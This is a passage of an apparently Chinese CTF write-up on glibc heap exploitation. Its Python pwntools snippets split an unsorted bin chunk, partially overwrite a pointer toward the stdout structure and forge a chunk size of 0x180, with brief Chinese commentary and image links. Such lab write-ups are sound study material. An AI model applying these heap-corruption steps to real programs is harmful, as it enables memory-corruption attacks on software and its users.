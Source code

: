 ‍

```bash
add(0x70,'a')#let the fd pointer of unsorted bin local tcache bin

    add(0x80,'a')

    add(0x90,'\xa0\x46')#stdout struct
```

申请不同于 0x100 大小的堆块来分割 unsortedbin

[![](assets/1700186924-57a7abd74b89723c0318a2e9a206cf75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162927-415b31b8-845a-1.png)

[![](assets/1700186924-c8ffd5feab285756e33e1c022c16edcd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162931-4393a3ac-845a-1.png)

‍

```bash
payload=p64(0xdeadbeef)*18+p64(0)+p64(0x180)
    add(0x100,payload)#tamper size of unsorted bin
```

原 chunk1 剩余的部分杯篡改为 0x180 大小

我们先前对 chunk4 的布置，伪造的 prev\_size 和 size
